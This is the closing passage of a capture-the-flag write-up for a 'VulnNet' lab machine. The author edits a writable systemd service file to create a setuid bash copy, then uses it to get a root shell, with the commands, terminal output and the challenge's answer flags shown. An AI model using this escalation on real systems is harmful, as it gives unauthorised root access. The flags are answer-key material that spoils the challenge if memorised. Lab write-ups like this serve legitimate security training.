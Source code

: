 - Since we can't write to `/bin/df`, I then checked `vulnnet-job.service` and BINGO, we can edit it.

  ```
  serv-manage@vulnnet-node:~$ ls -l /etc/systemd/system/vulnnet-job.service 
  -rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
  
  serv-manage@vulnnet-node:~$ nano /etc/systemd/system/vulnnet-job.service 
  serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service 
  [Unit]
  Description=Logs system statistics to the systemd journal
  Wants=vulnnet-auto.timer
  
  [Service]
  # Gather system statistics
  Type=forking
  ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'
  RemainAfterExit=yes
  
  [Install]
  WantedBy=multi-user.target
  ```

- Replace the original values with this:

  ```
  ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'
  RemainAfterExit=yes
  ```

- Now just reset services and then wait for like 20 seconds then run `/tmp/rootbash -p` and you are root.

  ```
  serv-manage@vulnnet-node:~$ sudo systemctl daemon-reload
  serv-manage@vulnnet-node:~$ sudo systemctl start vulnnet-auto.timer
  
  serv-manage@vulnnet-node:~$ /tmp/rootbash -p
  rootbash-4.4# whoami
  root
  rootbash-4.4# id
  uid=1000(serv-manage) gid=1000(serv-manage) euid=0(root) egid=0(root) groups=0(root),1000(serv-manage)
  rootbash-4.4# cat /root/root.txt
  THM{abea728f211b105a608a720a37adabf9}
  ```

---

## 🏁 Flags

- **User Flag**: `THM{064640a2f880ce9ed7a54886f1bde821}`
- **Root Flag**: `THM{abea728f211b105a608a720a37adabf9}`

---
